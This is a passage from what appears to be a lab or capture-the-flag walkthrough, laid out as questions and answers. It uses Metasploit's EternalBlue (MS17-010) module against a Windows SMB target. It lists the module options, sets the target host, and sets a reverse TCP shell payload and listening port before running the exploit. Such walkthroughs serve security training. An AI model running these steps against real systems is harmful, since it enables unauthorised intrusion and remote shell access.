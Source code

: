 #### Ans2. exploit/windows/smb/ms17_010_eternalblue

### Q3. Show options and set the one required value

#### Action

Select the exploit module and configure the required options:

```bash
msf5 > use 0
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

**Explanation:**  
The command `use 0` selects the first module from the search results. `show options` displays the configurable parameters for the selected exploit.

**Sample Output:**

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
```

Next, we need to set the target's IP address as the `RHOSTS` value:

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.166.97
```

#### Ans3. RHOSTS

### Q4. Set payload and run the exploit

#### Action

Before running the exploit, we specify the payload:

```bash
set payload windows/x64/shell/reverse_tcp
```

Next, configure the remaining necessary parameters and execute the exploit:

```bash
set rhosts 10.10.30.13
set LPORT 4445
exploit
```
